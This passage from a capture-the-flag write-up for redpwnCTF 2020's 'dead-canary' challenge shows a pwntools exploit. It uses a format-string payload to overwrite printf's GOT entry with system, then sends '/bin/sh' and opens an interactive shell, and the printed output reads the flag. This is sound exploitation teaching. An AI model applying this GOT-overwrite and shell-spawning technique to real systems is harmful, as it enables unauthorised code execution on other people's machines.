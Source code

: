 ```python
# 2nd pass, printf -> system
p.recvuntil('name: ')
payload  = fmtstr_payload(offset,{binary.got['printf']:libc.symbols['system']},numbwritten=0)
payload += ((0x118 - 0x10 + 1) - len(payload)) * b'A'
p.send(payload)

# take out the garbage
null = payload.find(b'\x00')
log.info('null loc: ' + str(null))
p.recvuntil(payload[null-2:null])

# final pass, flying blind
p.sendline('/bin/sh')
p.interactive()
```

The first part of this is identical to [exploit.py](exploit.py)--leak libc.  However the 2nd pass updates the GOT again, but this time replaces `printf` with `system`.  At this point we're flying blind and `system` is getting passed strings as commands.  As expected there will be a lot garbage on the screen, to help with that:

```python
null = payload.find(b'\x00')
log.info('null loc: ' + str(null))
p.recvuntil(payload[null-2:null])
```

will search for the two bytes before the first null, and then wait for that output so that interactive does not pick up too much garbage.

Output:

```bash
# ./exploit2.py
[*] '/pwd/datajerk/redpwnctf2020/dead-canary/bin/dead-canary'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 2020.redpwnc.tf on port 31744: Done
[*] __libc_start_main: 0x7fd198a11ab0
[*] baselibc: 0x7fd1989f0000
[*] null loc: 75
[*] Switching to interactive mode
sh: 1: What: not found
sh: 1: Hello: not found
$ cat flag.txt
flag{t0_k1ll_a_canary_4e47da34}
```
